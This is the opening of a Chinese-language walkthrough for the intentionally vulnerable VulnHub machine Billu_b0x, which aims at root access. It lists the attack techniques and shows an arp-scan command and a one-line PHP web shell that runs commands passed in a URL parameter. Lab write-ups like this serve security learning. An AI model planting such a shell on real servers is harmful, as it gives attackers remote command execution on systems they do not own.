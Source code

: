 > 靶机环境介绍
+ [Billu_b0x](https://download.vulnhub.com/billu/Billu_b0x.zip) 
+ 难度等级 <font color=yellow> 中 (两种攻击方式)</font>

目标:
+ 取得 root 权限

**所用技术栈**
+ 主机发现
+ 端口扫描
+ WEB 信息收集
+ SQL 注入 (SQLMAP 跑不出来)
+ 文件包含漏洞
+ 文件上传漏洞
+ 源码审计
+ 内核漏洞提权

## 主机发现与端口扫描

主机发现


```bash
sudo arp-scan -l
```


```php
<?php system($_GET["cmd"]);?>
```

